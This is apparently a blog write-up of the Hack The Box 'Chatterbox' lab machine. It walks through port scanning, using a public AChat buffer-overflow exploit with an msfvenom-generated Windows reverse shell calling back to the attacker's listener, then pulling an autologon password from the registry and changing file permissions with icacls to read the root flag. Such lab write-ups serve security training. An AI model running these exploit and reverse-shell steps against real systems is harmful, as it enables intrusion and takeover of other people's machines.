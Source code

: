 ```yaml
---
title: 'Chatterbox Writeup'
date: 2018-06-18
thumbnailImagePosition: left
thumbnailImage: /img/posts/2018/06/chatterbox-writeup/chatterbox-writeup-banner.png
coverImage: /img/posts/2018/06/chatterbox-writeup/chatterbox-writeup-banner.png
coversize: partial
coverMeta: out
metaAlignment: center
clearReading: true
categories:
- Hackthebox
- CTF
- Writeup
tags:
- hackthebox
- htb
- pentest
- ctf
showTags: false
showPagination: true
showSocial: true
showDate: true
comments: false
summary: "My writeup of the Hack the box Chatterbox."
---
```


> Never tell everything you know...
-Roger H. Lincoln

A box that warranted a lot of resets and frustrations. Due to the fact that the initial shell was provided with a Buffer Overflow, and crashing the service at the same time.

Connecting with my supplied VPN from HackTheBox[^1], and performing the initial NMAP scan on the box IP: 10.10.10.74
```
root@kali:~/Chatterbox$ nmap -p- -T4 -Pn 10.10.10.74
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-18 16:57 CEST
Nmap scan report for AChat (10.10.10.74)
Host is up (0.041s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE
9255/tcp open  mon
9256/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 287.36 seconds
```
So that gives us two ports, lets run a more thorough scan on both.
```
root@kali:~/Chatterbox$ nmap -p9255,9256 -sV --version-all 10.10.10.74
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-18 17:05 CEST
Nmap scan report for AChat (10.10.10.74)
Host is up (0.042s latency).

PORT     STATE SERVICE VERSION
9255/tcp open  http    AChat chat system httpd
9256/tcp open  achat   AChat chat system

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.09 seconds
```
Verification of these services can be done with a simple banner grab using netcat
```
root@kali:~/Chatterbox$ nc 10.10.10.74 9255
> GET / HTTP/1.1

HTTP/1.1 204 No Content
Connection: close
Server: AChat
```
Now it serves a HTTP 204 No Content, but the server seems interesting. Reporting as AChat[^2] we can determine (Unless its a fake HTTP Server), that theres some kind of chat server running behind that port.
Using Searchsploit we can quite quickly see if there is some ready made exploit available.
```
root@kali:~/Chatterbox$ searchsploit achat
-------------------------------------------- ----------------------------------
 Exploit Title                              |  Path
                                            | (/usr/share/exploitdb/)
-------------------------------------------- ----------------------------------
Achat 0.150 beta7 - Remote Buffer Overflow  | exploits/windows/remote/36025.py
[..snip..]
-------------------------------------------- ----------------------------------
Shellcodes: No Result
Papers: No Result
```
So there is as I mentioned before a ready made Buffer OverFlow, that could be used.
First of all copy it to the current directory and look into the sourcecode (remember to never run anything without reviewing the sourcecode).
```
root@kali:~/Chatterbox$ searchsploit -m 36025.py
  Exploit: Achat 0.150 beta7 - Remote Buffer Overflow
      URL: https://www.exploit-db.com/exploits/36025/
     Path: /usr/share/exploitdb/exploits/windows/remote/36025.py
File Type: Python script, ASCII text executable, with very long lines, with CRLF line terminators

Copied to: /root/Documents/Documentation/CTF/htb/chatterbox/blog/36025.py
```
The exploit comes with some customization. Namely create your own shellcode to use in the exploit, and as the exploit suggests lets use msfvenom to create a reverse shell.
```
root@kali:~/Chatterbox$ msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=4000 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python > shellcode.py
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 774 (iteration=0)
x86/unicode_mixed chosen with final size 774
Payload size: 774 bytes
Final size of python file: 3706 bytes
```
Now LHOST and LPORT are my own, substitute for your IP recieved by HackTheBox. The important part is that the shellcode generated is below 1152 bytes, as that is specified as the largest payload for this exploit. Mine that was generated is 774 bytes, so well below the threshold.
Using a texteditor lets remove the existing 'buf' lines from the exploit and replace with our generated ones.
Now using the exploit, we also need to have a listener before the service is exploited.
```
Exploit:
root@kali:~/Chatterbox$ python 36025.py
---->{P00F}!
root@kali:~/Chatterbox$
```
```
Listener:
root@kali:~/Chatterbox$ nc -lvvp 4000
listening on [any] 4000 ...
connect to [10.10.14.7] from AChat [10.10.10.74] 49157
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
chatterbox\alfred
C:\Windows\system32>
```
Cool, has shell, as 'Chatterbox\Alfred'.
```
c:\Users\Alfred\Desktop>dir /Q
Directory of c:\Users\Alfred\Desktop
[..snip..]
12/10/2017  07:50 PM                32 CHATTERBOX\Alfred      user.txt
[..snip..]
c:\Users\Alfred\Desktop>
```
So that takes care of one flag. Lets go for root!
Doing some registry enumeration, which can be automated with scripts like Sherlock.ps1[^3].
We are presented with:
```
c:\Users\Alfred\Desktop>reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon"
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
[..snip..]
    DefaultUserName    REG_SZ    Alfred
    AutoAdminLogon    REG_SZ    1
    DefaultPassword    REG_SZ    Welcome1!
[..snip..]
c:\Users\Alfred\Desktop>
```
Got a user and the password, what would the odds be that Alfred uses the same password for the administrator account?
One could use powershell to get a shell as Administrator. But since you also have read access into the Administrator user as Alfred, we can also see if we can change permissions on root.txt using icacls.
```
c:\Users\Administrator>icacls c:\Users\administrator\desktop\root.txt CHATTERBOX\Alfred:(RX)
icacls c:\Users\administrator\desktop\root.txt CHATTERBOX\Alfred:(RX)
Invalid parameter "CHATTERBOX\Alfred:(RX)"

c:\Users\Administrator>icacls c:\Users\Administrator\Desktop\root.txt /grant everyone:(f)
icacls c:\Users\Administrator\Desktop\root.txt /grant everyone:(f)
processed file: c:\Users\Administrator\Desktop\root.txt
Successfully processed 1 files; Failed processing 0 files

c:\Users\Administrator>type Desktop\root.txt
type Desktop\root.txt
EatSleepPwnRepeat
```


[^1]: [www.hackthebox.eu](www.hackthebox.eu)  
[^2]: [www.sourceforge.net/projects/achat/](https://sourceforge.net/projects/achat/)  
[^3]: [www.github.com/rasta-mouse](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1)

